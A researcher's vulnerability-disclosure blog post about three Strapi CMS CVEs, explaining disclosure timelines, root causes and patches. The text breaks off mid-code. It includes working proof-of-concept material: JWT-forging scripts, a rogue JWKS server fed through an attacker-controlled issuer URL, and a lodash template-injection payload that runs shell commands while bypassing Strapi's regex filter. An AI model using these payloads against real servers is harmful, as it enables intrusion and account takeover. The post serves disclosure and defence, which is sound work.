# Overview

Recently, I have decided to start finding vulnerabilities in open source web applications (thank you to the holiday period for giving me the time) and thought I should give [Strapi](https://strapi.io/) a look. [Strapi](https://strapi.io/) is the most popular NodeJS based Headless Content Management System (CMS), and playing around with it I definitely see why it is a popular choice to create web APIs quickly. Doing a quick search for Strapi servers on [Shodan](https://www.shodan.io/) shows over **19,000 results**, which is a lot for a new CMS.



However, after a bit of tinkering with Strapi I discovered **three vulnerabilities:**

- **CVE-2023-22893**: Authentication Bypass for AWS Cognito Login Provider in Strapi Versions <=4.5.6
- **CVE-2023-22621**: SSTI to RCE by Exploiting Email Templates in Strapi Versions <=4.5.5
- **CVE-2023-22894**: Leaking Sensitive User Information by Filtering on Private Fields in Strapi Versions <=4.7.1

**CVE-2023-22894** and **CVE-2023-22621** can be chained together in an automated script to hijack **Super Admin Users** on Strapi then **execute code as an unauthenticated user** on all Strapi versions <=4.5.5.

I will be doing a deep dive into each of these vulnerabilities individually, so *strapi* in for a wild ride. 

This article will also document how Strapi handled my vulnerability discloses and patched each vulnerability, since it is an important story for other organisations about **how to handle vulnerability disclosures correctly**. This has been my best experience reporting security vulnerabilities to any organisation by far. Strapi's transparent communication and rapid responses with me was something I have never seen before, and I do want to give the company a massive shout out.

*Now let's get into the fun stuff and start popping shells, dumping password hashes and hacking into accounts!*

**Table of Contents**

<!-- Yes Alok the TOC doesn't reference itself this time... -->
[TOC]

---

# TL;DR

If you are still using **Strapi versions <4.8.0** and you are reading this article...

**Please stop reading this article and immediately update your Strapi server!**

I also highly recommend going straight to the [**Indicators of Compromise section**](#indicators-of-compromise) and **start incident response**! There is a very high chance that a malicious actor has already attempted to compromise your server!

---

# Disclaimers

- I am not affiliated with Strapi or any business partner of Strapi.
- The work I did discovering, reporting and providing advice were done in my personal time.
- This research is not related in anyway to my current employment.
- My sole intent has alway been to protect people and organisations from cyber crime.

---

# CVE-2023-22893: Authentication Bypass for AWS Cognito Login Provider in Strapi Versions <=4.5.6

The first vulnerability I will explain will be the authentication bypass for the AWS Cognito login provider, since it is the easiest to explain (got to build up the suspense). 

Whenever I review source code one of the first things I want to check is how authentication and authorisation is implemented. Upon reviewing Strapi's login provider code authentication, I saw the following code snippet for handling authentication for the [AWS Cognito login provider](https://aws.amazon.com/cognito/).

[**`@strapi/plugin-users-permissions/server/services/providers-registry.js`**](https://github.com/strapi/strapi/blob/v4.5.6/packages/plugins/users-permissions/server/services/providers-registry.js)
```js
  async cognito({ query }) {
    // get the id_token
    const idToken = query.id_token;
    // decode the jwt token
    const tokenPayload = jwt.decode(idToken);
    if (!tokenPayload) {
      throw new Error('unable to decode jwt token');
    } else {
      return {
        username: tokenPayload['cognito:username'],
        email: tokenPayload.email,
      };
    }
  },
```

*Where was the OAuth token verification?*


**This meant that an attacker could forge a JWT token to impersonate any user who use AWS Cognito to authenticate!** Fortunately this vulnerability only impacts **Strapi API user authentication**, and this vulnerability cannot be exploited to gain access to the admin panel.

I will explain how you can exploit this vulnerability and discuss how Strapi handled patching this vulnerability. I will also use this opportunity spread my paranoia about external contributions to open-source projects.

---

## TL;DR Vulnerability Details
- **CVE:** CVE-2023-22893
- **CVSS v3.1 Vector:** [AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N&version=3.1)
- **Impacted Versions:** >=3.2.1,<4.6.0
- **How to Patch:** Immediately **update** your Strapi to version **>=4.6.0**! If you using Strapi **3.x.x** or below, **IMMEDIATELY UPDATE TO A PATCHED 4.x.x VERSION!** Strapi versions 3.x.x reached its **end of life support on the December 31st 2022**, and would **not receive a patch** for this vulnerability! 

---

## Vulnerability Disclosure Timeline

| Time | Event |
| ---- | ----- |
| 2023/01/01 09:14 AM UTC | Disclosed to Strapi this authentication bypass vulnerability. |
| 2023/01/01 08:35 PM UTC | Received an acknowledgement from Strapi that they have received my report (*woah that is fast on New Years day*). |
| 2023/01/04 10:53 AM UTC | Strapi reproduced the vulnerability. |
| 2023/01/09 04:49 PM UTC | Strapi developed a *fix* and provided me with the nightly build to verify the vulnerability has been patched. |
| 2023/01/10 12:19 PM UTC | From a static analysis, I reported to Strapi that the fix still had an authentication bypass vulnerability by modifying the `iss` claim. |
| 2023/01/11 11:57 AM UTC | The Strapi developer correctly patched the vulnerability by adding a configurable JWKS url. |
| 2023/01/25 08:21 PM UTC | Strapi released version **4.6.0** that patches this vulnerability. |

---

## How to Exploit Strapi AWS Cognito Authentication Bypass Vulnerability

Bypassing the AWS Cognito authentication for Strapi was **extremely easy**, since the OAuth ID token was **never verified**. So all you have to do is create a JWT token (does not matter what secret or signing algorithm you use) and set the email claim to be the same as your victim.

*That's it...*

You can use the following proof of concept (POC) for generating the JWT.

```python
import jwt

EMAIL_TO_IMPERSONATE="ghostccamm@testvm.local"

payload = {
        "cognito:username": "auth-bypass-example",
        "email": EMAIL_TO_IMPERSONATE
}

jwt_token = jwt.encode(payload, None, algorithm=None)
print(f"JWT Token: {jwt_token}")
```

Then just send that token to `/api/auth/cognito/callback?access_token=something&id_token=<JWT PAYLOAD>`.



---

## A Lesson for Open-Source Project Maintainers

You might be wondering *how did this code get added to Strapi*? It was pointed out to me during my disclosure to Strapi that the vulnerable code was added by an external community member in a pull request. I won't be referencing the pull request, because I do not want to start a witch hunt. Instead, I want to focus on the importance of reviewing pull requests, especially from external developers adding features to high risk functions within the application.

Coming from a security and development background, I immediately noticed the security vulnerability just from reading the source code. However, the Strapi engineers that reviewed the pull request were focused on asking the community developer to fix the merge conflicts. Their attention was diverted away from verifying if the pull request had secure code and consequently they missed the authentication bypass vulnerability that was introduced into Strapi version 3.2.1.

Going through the original pull request logs that introduced this vulnerability, I saw two massive red flags that should of indicated the pull request should of been reviewed with extra scrutiny.

1. Changes were made to how Strapi handles authentication that could introduce a new severe vulnerability (like it did in this case).
2. The developer that created the pull request had only created their Github account only a few months earlier.

I bring up the second point because the internet is a beautiful and **dangerous** place. Anyone with malicious intent could try to inject hidden backdoors into popular applications.

**Before I continue my point, I want to make it very clear that I am not accusing that developer that introduced this vulnerability was a malicious actor.** It is very clear going through their Github profile at the time of writing this article that they are a passionate developer and just wanted to contribute to Strapi's development. However, at the time of the pull request (2020) the account was new and there was no evidence of their experience. This could indicate that the developer was new to software development, and could have a lack of secure software development experience. On the other hand, if we switch on our *paranoid worst case scenario security hat* the newly created account could be a malicious actor trying to insert a hidden backdoor into the software. Malicious actors have tried to commit backdoors into software in the past and it will always be one of their biggest goals for attackers.

Take for an example the [hilarious attempt of inserting a backdoor into the PHP code base in 2021](https://news-web.php.net/php.internals/113838). A malicious actor hacked into PHP's git server to commit the following code impersonating a PHP developer that would execute arbitrary code when a HTTP server contained the string "zerodium".

[From PHP commit `c730aa26bd52829a49f2ad284b181b7e82a68d7d`](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d)


Fortunately, a PHP developer noticed the backdoor the next day and [reverted the change](https://github.com/php/php-src/commit/046827a7e867bb0e655923c75c25a20d06e3aa8b). However, [**the mad lad tried it again!**](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)



The point I want to convey to open-source maintainers is that they should be cautious of external contributions and review the changes more carefully. Unlike the above PHP backdoor scenario, a malicious actor could start a pull request that contains a far less obvious backdoor into your application. Saying that, working in security does require a *healthy* dose of anxiety and the most likely scenario would not be a backdoor attempt. I just wanted take this opportunity to communicate my concerns about the risks of community contributions to open-source software projects.

---

## How Strapi Fixed the Vulnerability

In my initial vulnerability report, I pointed Strapi to [AWS's documentation about verifying Oauth tokens issued by Cognito](https://docs.aws.amazon.com/cognito/latest/developerguide/amazon-cognito-user-pools-using-tokens-verifying-a-jwt.html). Boiling down the documentation into a sentence, to verify JWT tokens issued by AWS Cognito you need to download the corresponding public JSON Web Key Set (JWKS) from the following URL and use the public key to verify the authenticity of the token.

```bash
https://cognito-idp.{region}.amazonaws.com/{userPoolId}/.well-known/jwks.json
```

However, Strapi's configuration options for the AWS Cognito login provider for versions <4.6.0 did not have an option for storing the AWS region or User Pool ID required to retrieve the corresponding JWKS file. Therefore, a breaking change would have to be introduced to fix this vulnerability.

One of the developers at Strapi did attempt to fix the patch without needing to introduce a breaking change that can be seen [here](https://github.com/strapi/strapi/blob/37d2a1dfcb309a29747db0b97d0231b3a2b026b0/packages/plugins/users-permissions/server/services/providers-registry.js). The following code snippet shows the `getCognitoPayload` function that was added to *verify* AWS Cognito ID tokens. You can also test out it yourself by setting up a Strapi version for the nightly build `0.0.0-37d2a1dfcb309a29747db0b97d0231b3a2b026b0` (setup command below).

```bash
npx create-strapi-app@0.0.0-37d2a1dfcb309a29747db0b97d0231b3a2b026b0 testTID2212 --quickstart
```

*The added code that was supposed to verify AWS Cognito tokens.*
```js
const getCognitoPayload = async (idToken, purest) => {
  const {
    header: { kid },
    payload,
  } = jwt.decode(idToken, { complete: true });

  if (!payload || !kid) {
    throw new Error('The provided token is not valid');
  }

  const { iss } = payload;

  const config = {
    cognito: {
      discovery: {
        origin: `${iss}/.well-known/jwks.json`,
        path: '',
      },
    },
  };
  try {
    const cognito = purest({ provider: 'cognito', config });
    // get the JSON Web Key (JWK) for the user pool
    const { body: jwk } = await cognito('discovery').request();
    // Get the key with the same Key ID as the provided token
    const key = jwk.keys.find(({ kid: jwkKid }) => jwkKid === kid);
    const pem = jwkToPem(key);

    // https://docs.aws.amazon.com/cognito/latest/developerguide/amazon-cognito-user-pools-using-tokens-verifying-a-jwt.html
    const decodedToken = await new Promise((resolve, reject) => {
      jwt.verify(idToken, pem, { algorithms: ['RS256'] }, (err, decodedToken) => {
        if (err) {
          reject();
        }
        resolve(decodedToken);
      });
    });
    return decodedToken;
  } catch (err) {
    throw new Error('There was an error verifying the token');
  }
};
```

**However, the above fix was also vulnerable to authentication bypass!**

The developer tried to fix the vulnerability by using the **`iss`** claim within the JWT to get the URL location to download the public key. However, the `iss` claim was **never verified** before being used to download the JWKS file. Therefore, an attacker can modify this claim so the server sends a request to an attacker-controlled server instead. This type of vulnerability is known as a Server-Side Request Forgery (SSRF), and in this use case can be exploited trick the Strapi server verify a forged JWT token using a JWKS from the attacker's website.

I immediately pointed out the security vulnerability that I noticed by reviewing the source code and followed with the below POC and GIF. The POC will first generate a RSA keyset that is then used to sign a forged JWT and start a web server that will respond with the corresponding JWKS file for the forged JWT.

```python
from jwcrypto import jwk, jwt
import json
from http.server import SimpleHTTPRequestHandler
import socketserver

key = jwk.JWK.generate(kty='RSA', size=2048, alg='RS256', use='sig', kid='1234authbypass')
public_key = key.export_public(as_dict=True)
private_key = key.export_private()

jwks_key = json.dumps({"keys":[public_key]}).encode()

payload = {
    "cognito:username": "auth-bypass-example",
    "email": "ghostccamm@testvm.local",
    "iss": "http://192.168.122.254/exploit"
}

token = jwt.JWT(
    header={"alg": "RS256", "kid": "1234authbypass"},
    claims=payload
)

token.make_signed_token(key)
print(f"Auth Bypass Token: {token.serialize()}")

class JWKSHandler(SimpleHTTPRequestHandler):

    def do_GET(self) -> None:
        self.protocol_version = 'HTTP/1.1'
        self.send_response(200, 'OK')
        self.send_header('Content-Type', 'application/json')
        self.end_headers()
        self.wfile.write(jwks_key)


with socketserver.TCPServer(("", 80), JWKSHandler) as httpd:
    print("Running Web Server to Server JWKS")
    httpd.serve_forever()
```

In the following GIF, you can see that my test Strapi server uses the unvalidated `iss` claim to download the JWKS file that the POC generates and successfully verifies the forged JWT and bypasses authentication.



The Strapi developer immediately updated the code to use a JWKS url setting that is configured on the admin panel that mitigates the risk of this vulnerability being exploited (major kudos for the fast fix). It does not completely eliminate the risk, since a [Prototype Pollution vulnerability](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications) could exist in the future that can be exploited to change this configuration setting; but this risk is unavoidable because Strapi is built using JavaScript.

---

# CVE-2023-22621: SSTI to RCE by Exploiting Email Templates in Strapi Versions <=4.5.5

The first vulnerability I discovered when I started reviewing Strapi's code was a **critical Server-Side Template Injection (SSTI) vulnerability** that can be exploited to **execute arbitrary code on the server**. If you had super administrator access, you can inject a malicious payload into an email template that bypasses the validation function `isValidEmailTemplate` (file [@strapi/plugin-users-permissions/server/controllers/validation/email-template.js](https://github.com/strapi/strapi/blob/v4.5.5/packages/plugins/users-permissions/server/controllers/validation/email-template.js)) that exploits a SSTI vulnerability in `sendTemplatedEmail` (file [@strapi/plugin-email/server/services/email.js](https://github.com/strapi/strapi/blob/v4.5.5/packages/core/email/server/services/email.js)). The function `sendTemplatedEmail` renders email templates into HTML content using the `lodash` template engine that **evaluates JavaScript code within templates**. In addition, an attacker can exploit **CVE-2023-22894** to gain **super administrator access as an unauthenticated user and then achieve RCE by exploiting this vulnerability**.

---

## TL;DR Vulnerability Details
- **CVE:** CVE-2023-22621
- **CVSS v3.1 Vector:** [AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H&version=3.1)
- **Affected Versions:** <=4.5.5
- **How to Patch:** Immediately **update** your Strapi to version **>=4.5.6**! If you using Strapi **3.x.x** or below, **IMMEDIATELY UPDATE TO A PATCHED 4.x.x VERSION!** Strapi versions 3.x.x reached its **end of life support on the December 31st 2022**, and would **not receive a patch** for this vulnerability!

---

## Vulnerability Disclosure Timeline

I would like to begin by first highlighting Strapi's professionalism handling this vulnerability disclosure. I have never received a response to one of my security reports **in under 20 minutes**, and this has been my best experience reporting a vulnerability to an organisation **by far**. Derrick from Strapi was transparent with me throughout this process and I want give them personal a shout out for doing vulnerability disclosure correctly.

If your organisation wants to know how to do handle vulnerability disclosure correctly, **please use Strapi as an example on how to respond to security vulnerabilities being reported!**

| Time | Event |
| ---- | ----- |
| 2022/12/30 00:15 AM UTC | Successfully exploited the SSTI vulnerability for the first time. |
| 2022/12/30 02:40 AM UTC | Sent the report of the vulnerability to the Strapi team following their security policy. |
| 2022/12/30 02:57 AM UTC | Received an initial response from Strapi acknowledging the report (*woah that was incredibly fast*). |
| 2022/12/30 02:12 PM UTC | Confirmation from Strapi that they successfully reproduced the vulnerability and provided an estimated 1 week timeline to patch the vulnerability due to the holiday period. |
| 2023/01/02 02:39 AM UTC | I sent a request to Mitre to reserve a CVE ID for this vulnerability. |
| 2023/01/03 08:00 PM UTC | Strapi team developed a fix for this vulnerability and released a nightly build for testing the patch. |
| 2023/01/05 12:09 AM UTC | Mitre reserved CVE ID `CVE-2023-22621` for this vulnerability. |
| 2023/01/08 08:13 AM UTC | Identified a minor issue with the patch. |
| 2023/01/10 10:00 AM UTC | Strapi team fixed the minor issue with the patch. |
| 2023/01/11 04:00 PM UTC | [Strapi released version **4.5.6**](https://github.com/strapi/strapi/releases/tag/v4.5.6) with the patch and announced a security warning for previous versions. |
| 2023/01/18 08:05 AM UTC | Informed Strapi about a method of exploiting **CVE-2023-22894** to hijack admin accounts, that enables this vulnerability being exploited as an **unauthenticated user**. |
| 2023/01/19 03:08 PM UTC | Strapi and I both decided to delay the public disclosure of this vulnerability until **CVE-2023-22894** has been patched. |

---

## Reproducing the SSTI Vulnerability

I used version 4.5.5 of Strapi that was released on the 29th of December 2022 and below is a screenshot of my project setup.



However, you should be able to reproduce the following steps for all versions of Strapi <=4.5.5. You can even exploit the vulnerability without having email configured, since Strapi will still execute `sendTemplatedEmail` and attempt to send the email using the default `sendmail` provider.

1. Login with an administrator account and on the admin panel go to Settings > Users & Permissions Plugin > Email templates.
    
2. Modify the Email address confirmation template and add the following payload (I will explain how it works later in this article). The payload will create a folder at `/tmp/strapi-confirm` and place a file at `/tmp/strapi-confirm/rce` when triggered.

*The POC payload*
```text
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/sh","args":["/bin/sh","-c","mkdir /tmp/strapi-confirm; touch /tmp/strapi-confirm/rce"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"/*<>%=*/}]}).output }` %>
```

Place the POC payload into the Email Address Confirmation Template and save it.

*Modifying the Email Address Confirmation Template*


*The POC Payload Bypasses the `isValidEmailTemplate` and saves it*


3. Navigate to Settings > Users & Permissions Plugin > Advanced settings and enable email confirmation. This will trigger the payload when a new user registers. However, you can also exploit the vulnerability by modifying the password reset template and trigger it by using the forgot password feature.

4. Register a new user using the API to trigger executing the email template with the POC. For an example, I am used local authentication and the following `curl` command to register a new API user.

```bash
curl -X POST -H 'Content-Type: application/json' -d '{"email":"rcetrigger@testvm.local", "username":"rcetrigger", "password": "Super top secret to demo RCE!!1"}' http://testvm.local:1337/api/auth/local/register
```

5. On the server, navigate to `/tmp` and see that a folder name `strapi-confirm` was created with a file named `rce` inside.



Finally for dramatic effect, the below gif shows me popping a reverse shell on my test VM by exploiting the SSTI vulnerability.



*Seems pretty simple?*

Well actually finding a working exploit was quite the fun challenge! The following section will explain my process of discovering this vulnerability and how the POC bypasses the validation function `isValidEmailTemplate`.

---

## Discovering and Exploiting this Vulnerability

To understand how I discovered and exploited the SSTI vulnerability in Strapi, I need to breakdown the different aspects when put together resulted in a successful exploit.

### Exploiting Lodash Template Injection

When I started reviewing Strapi, one of the first things that immediately caught my attention was the use of the `lodash` template engine in `sendTemplatedEmail` (source code shown below).

```js
'use strict';

const _ = require('lodash');

const getProviderSettings = () => {
  return strapi.config.get('plugin.email');
};

const send = async (options) => {
  return strapi.plugin('email').provider.send(options);
};

/**
 * fill subject, text and html using lodash template
 * @param {object} emailOptions - to, from and replyto...
 * @param {object} emailTemplate - object containing attributes to fill
 * @param {object} data - data used to fill the template
 * @returns {{ subject, text, subject }}
 */
const sendTemplatedEmail = (emailOptions = {}, emailTemplate = {}, data = {}) => {
  const attributes = ['subject', 'text', 'html'];
  const missingAttributes = _.difference(attributes, Object.keys(emailTemplate));
  if (missingAttributes.length > 0) {
    throw new Error(
      `Following attributes are missing from your email template : ${missingAttributes.join(', ')}`
    );
  }

  const templatedAttributes = attributes.reduce(
    (compiled, attribute) =>
      emailTemplate[attribute]
        ? Object.assign(compiled, { [attribute]: _.template(emailTemplate[attribute])(data) })
        : compiled,
    {}
  );

  return strapi.plugin('email').provider.send({ ...emailOptions, ...templatedAttributes });
};

module.exports = () => ({
  getProviderSettings,
  send,
  sendTemplatedEmail,
});
```

I was unfamiliar with using or exploiting the `lodash` template engine, but reading the [documentation](https://lodash.com/docs/4.17.15#template) I realised that the template engine can **evaluate JavaScript code on the server**! I also [found this tweet](https://twitter.com/rootxharsh/status/1268181937127997446?lang=en) that contains the following payload that can exploit `lodash` SSTI vulnerabilities to execute arbitrary commands.

```text
<%= ${x=Object}${w=a=new x}${w.type="pipe"}${w.readable=1}${w.writable=1}${a.file="/bin/sh"}${a.args=["/bin/sh","-c","id"]}${a.stdio=[w,w]}${process.binding("spawn_sync").spawn(a).output} %>
```

Now that payload looks a little bit confusing, so lets break it down to understand how it works:

- The payload creates two empty objects named `w` and `x` (`${x=Object}${w=a=new x}`).

- The `w` is then assigned the `readable` and `writable` attributes that both have a value of `1` and the attribute `type` to `pipe` to pipe the output of the command that would be executed (`${w.type="pipe"}${w.readable=1}${w.writable=1}`).

- Then `a` is assigned the following attributes and used as the input parameter for `process.binding("spawn_sync").spawn` that starts a new process and waits until completion.

```js
{
    file: "/bin/sh",
    args: ["/bin/sh", "-c", "id"],
    stdio: [
        {"type": "pipe", "readable": 1, "writable": 1},
        {"type": "pipe", "readable": 1, "writable": 1}
    ]
}
```

So that is a neat payload to get RCE by exploiting a `lodash` SSTI vulnerability. However, when I attempted to use that payload I kept on getting this weird error.



Looking at the request and response using BurpSuite, I realised that email templates were being validated and my payload was being rejected somewhere.



Searching for the keyword "Invalid template", I found the `isValidEmailTemplate` function that was not letting me pass my payload :\(


### Bypassing the Email Template Validation Check

Below is the source code for `isValidEmailTemplate` that was rejecting the original SSTI payload that I simply copied and pasted.

```js
'use strict';

const _ = require('lodash');

const invalidPatternsRegexes = [/<%[^=]([^<>%]*)%>/m, /\${([^{}]*)}/m];
const authorizedKeys = [
  'URL',
  'ADMIN_URL',
  'SERVER_URL',
  'CODE',
  'USER',
  'USER.email',
  'USER.username',
  'TOKEN',
];

const matchAll = (pattern, src) => {
  const matches = [];
  let match;

  const regexPatternWithGlobal = RegExp(pattern, 'g');
  // eslint-disable-next-line no-cond-assign
  while ((match = regexPatternWithGlobal.exec(src))) {
    const [, group] = match;

    matches.push(_.trim(group));
  }
  return matches;
};

const isValidEmailTemplate = (template) => {
  for (const reg of invalidPatternsRegexes) {
    if (reg.test(template)) {
      return false;
    }
  }

  const matches = matchAll(/<%=([^<>%=]*)%>/, template);
  for (const match of matches) {
    if (!authorizedKeys.includes(match)) {
      return false;
    }
  }

  return true;
};

module.exports = {
  isValidEmailTemplate,
};
```

The `isValidEmailTemplate` preforms two checks for validating a submitted email template:

1. It checks that only the `<%= %>` Lodash template delimiter is used by checking if there is a match to an invalid regex pattern (`[/<%[^=]([^<>%]*)%>/m, /\${([^{}]*)}/m]`).

*Code snippet that checks only `<%= %>` delimiter is used*
```js
  for (const reg of invalidPatternsRegexes) {
    if (reg.test(template)) {
      return false;
    }
  }
```

2. That the key name within the `<%= %>` delimiter is in the allow list named `authorizedKeys`.

*Code snippet that checks the key name is in an allow list*
```js
  const matches = matchAll(/<%=([^<>%=]*)%>/, template);
  for (const match of matches) {
    if (!authorizedKeys.includes(match)) {
      return false;
    }
  }
```

So I had to bypass three different regex patterns.

| Regex Pattern | Purpose |
| ---- | ------ |
|`/<%[^=]([^<>%]*)%>/m`| Checks that `<%= %>` Lodash template delimiter is the only used delimiter in the template. |
|`/\${([^{}]*)}/m`| Rejects using the ES template literal delimiter (example `${ stuffHere }`). |
|`/<%=([^<>%=]*)%>/`| Used for extracting the key names from each `<%= %>` delimiter and comparing to an allow list. |


The first regex pattern I had no issues with, since I wanted to use the `<%= %>` delimiter for triggering my SSTI payload. 

However, the second and third regex patterns were far more problematic. The SSTI RCE payload that I discussed in the previous section uses the characters `${}` within the payload to evaluate JavaScript code, which was being blocked by the pattern `/\${([^{}]*)}/m`. Plus, to make things more challenging I had to find a way to trick the `/<%=([^<>%=]*)%>/` pattern to extract a key name in the allow list or **nothing to skip the allow list check** (*a little bit of foreshadowing*).

Now if you are familiar with using regex patterns, you might of noticed that the patterns in `isValidEmailTemplate` are similar to the regex pattern for matching any text between delimiters (eg. `\${(.*?)}` will match to any text on a single line between `${` and `}`). In this can an exclude character list (eg. `[^{}]`) when matching characters within text.

At a glance, these regex patterns appear to be fine.

**However, there is 1 tiny mistake in all of the regex patterns that allowed me to bypass these checks!**

The special regex character `*` **matches the previous token between zero and unlimited times**. Looking at the regex patterns, the previous regex token in each of them is a **character exclusion list**. Therefore, characters in the exclusion list would **break the grouping of text between the delimiters and results in not matching the regex patterns**!

Okay I went a little bit technical there, so I will demonstrate using the `/\${([^{}]*)}/m` pattern. Using [regex101](https://regex101.com/), the below screenshot shows that the pattern correctly identifies text between `${}`.



Now if I add a character from the exclude list (`{` or `}`) the **regex pattern does not correctly match the text since it does not match the pattern `[^{}]*`!**



**The same issue occurs for the `/<%=([^<>%=]*)%>/` pattern used for extracting key names for comparison to the allow list.**

So if I included one of these characters `<>%=` in the key name between `<%= %>` then the **filter will fail to extract my payload for comparison with allowed key names**!

You can test it out yourself by running the following test code.

```js
const _ = require("lodash");

const authorizedKeys = [
    'URL',
    'ADMIN_URL',
    'SERVER_URL',
    'CODE',
    'USER',
    'USER.email',
    'USER.username',
    'TOKEN',
  ];
  
const matchAll = (pattern, src) => {
  const matches = [];
  let match;

  const regexPatternWithGlobal = RegExp(pattern, 'g');
  // eslint-disable-next-line no-cond-assign
  while ((match = regexPatternWithGlobal.exec(src))) {
    const [, group] = match;

    matches.push(_.trim(group));
  }
  return matches;
};

const validKeyInTemplate = (template) => {
  const matches = matchAll(/<%=([^<>%=]*)%>/, template);
  for (const match of matches) {
    if (!authorizedKeys.includes(match)) {
      return false;
    }
  }
  return true;
};

let blockedTemplate = '<%= I am blocked %>';
let bypassTemplate = '<%= I am not blocked because I have <>%=! %>';

let tests = [blockedTemplate, bypassTemplate];

tests.forEach((template) => {
  console.log(`template: ${template}`);
  if (validKeyInTemplate(template)) {
    console.log('Bypassed the Regex Filter!');
  } else {
    console.log('Was blocked :(');
  }
});
```



### Putting it All Together

Now that I had discovered a bypass for the regex filters in `isValidEmailTemplate`, I needed to reorganise my SSTI payload to bypass validation.

Firstly, the `lodash` SSTI payload in [this tweet](https://twitter.com/rootxharsh/status/1268181937127997446?lang=en) is just a fancy way to execute `process.binding("spawn_sync").spawn` with the following Object as an input parameter.

```js
{
    file: "/bin/sh",
    args: ["/bin/sh", "-c", "id"],
    stdio: [
        {"type": "pipe", "readable": 1, "writable": 1},
        {"type": "pipe", "readable": 1, "writable": 1}
    ]
}
```

Since JavaScript Objects can be declared using `{}` characters, I could bypass the regex pattern `/\${([^{}]*)}/m` by simply changing the input for `process.binding("spawn_sync").spawn` from a variable that is constructed within the payload to a single Object using `{}` (shown below).

```text
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/sh","args":["/bin/sh","-c","mkdir /tmp/strapi-confirm; touch /tmp/strapi-confirm/rce"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"}]}).output }` %>
```

Finally to bypass validating the key names for the template delimiters, I simply whacked `/*<>%=*/` into the payload. The `/*` and `*/` characters are multiline comments in JavaScript that ignore any text between the comments. Therefore, I could whack any of the characters in the character exclusion list in `/<%=([^<>%=]*)%>/` so the payload would not be compared to the allow list for valid key names.

*The final POC payload*
```text
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/sh","args":["/bin/sh","-c","mkdir /tmp/strapi-confirm; touch /tmp/strapi-confirm/rce"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"/*<>%=*/}]}).output }` %>
```

---

## My Recommendation for Patching the Vulnerability

Now an *obvious* patch for this vulnerability would be to fix the regex filter patterns in `isValidEmailTemplate` to correctly block the SSTI payload. **In my opinion, this is the wrong approach for fixing this SSTI vulnerability.**

Whenever you are planning a patch to fix a security vulnerability, you always need to have an understanding of the **context of the functionality of the vulnerable component** and **evaluate the risk of implementing each patch strategy**.

So going back to why simply fixing the regex patterns in `isValidEmailTemplate` is a bad idea, it is because it does not eliminate the risk that a malicious payload gets successfully rendered using the `lodash` template engine in `sendTemplatedEmail`. In the future, someone else could find a different bypass for the new filter and be able to exploit the SSTI vulnerability in `sendTemplatedEmail`.

Instead I recommended that Strapi should **completely remove using the `lodash` template engine for rendering email templates**. Reading the source code, my understanding of the functionality was to replace placeholders within an email template with string values. Using a template engine to achieve this functionality is overkill, and the same functionality could be achieved by preforming a string replace operation.

However, there is still a risk to replacing placeholders within emails using user supplied values. If HTML special characters are not filtered when they are inserted into the template, then you could potentially modify the content of an email with a completely different message than the original one in the template. This new vulnerability could then be used as a vector for social engineering by constructing phishing emails that are sent from an email address owned by an organisation.

Therefore, my final recommendation to Strapi was to replace using the `lodash` template engine in `sendTemplatedEmail` with a string replace method that also sanitise HTML characters in user inputs.

### TIL: Logic-less Template Engines Exist

After I provided my recommendation and Strapi patched the vulnerability (explained in the next section), I was made aware of Logic-less Template Engines for NodeJS (eg. [`Mustache.js`](https://github.com/janl/mustache.js/) and [`micromustache`](https://www.npmjs.com/package/micromustache)). Logic-less Template Engines are a type of template engine that only replaces tags with values and does not allow the execution of code. A Logic-less Template Engine would of been an ideal solution for patching this vulnerability, and I would of recommended it if I knew about them at the time of reporting this vulnerability.

**If you are concerned about SSTI vulnerabilities and only need to replace tag values, then I highly recommend using Logic-less template engines.**

---

## How Strapi Fixed the Vulnerability

The Strapi development team decided to continue using the `lodash` template engine, but implement more stringent security controls and filters to prevent exploitation of SSTI via email templates. I expressed my reservations to Strapi about continuing to use the `lodash` template engine. However, I do understand that this strategy was the best approach for maintaining backwards compatibility and preventing a breaking change to the email functionality. Derrick from Strapi provided me access to the patch that was released as a nightly build with the commit ID [`0458e88bce7060b72450181eff292900135c82e1`](https://github.com/strapi/strapi/tree/0458e88bce7060b72450181eff292900135c82e1).

*Now, let's see how Strapi fixed the vulnerability.*

### Setting Strict Delimiter Regex Patterns for Template Engines to Prevent Evaluating Unintended Blocks 

First let's look at the changes made to the `sendTemplatedEmail` function.

*Changes to the `sendTemplatedEmail` function*


The `sendTemplatedEmail` now sets the `interpolate` option for the `lodash` template engine and the `evaluate` option. The `interpolate` option is for specifying the regex pattern for determining the `interpolate` delimiter that the `lodash` template engine would use, which is now created by a new function called `createStrictInterpolationRegExp` that is derived from the data that would is expected to be rendered (the `keysDeep` function). Let's take a closer look at these two functions.

[`packages/core/utils/lib/object-formatting.js`](https://github.com/strapi/strapi/blob/0458e88bce7060b72450181eff292900135c82e1/packages/core/utils/lib/object-formatting.js)
```js
'use strict';

const _ = require('lodash');

const removeUndefined = (obj) => _.pickBy(obj, (value) => typeof value !== 'undefined');

const keysDeep = (obj, path = []) =>
  !_.isObject(obj)
    ? path.join('.')
    : _.reduce(obj, (acc, next, key) => _.concat(acc, keysDeep(next, [...path, key])), []);

module.exports = {
  removeUndefined,
  keysDeep,
};
```

[`packages/core/utils/lib/template.js`](https://github.com/strapi/strapi/blob/0458e88bce7060b72450181eff292900135c82e1/packages/core/utils/lib/template.js)
```js
'use strict';

/**
 * Create a strict interpolation RegExp based on the given variables' name
 *
 * @param {string[]} allowedVariableNames - The list of allowed variables
 * @param {string} [flags] - The RegExp flags
 */
const createStrictInterpolationRegExp = (allowedVariableNames, flags) => {
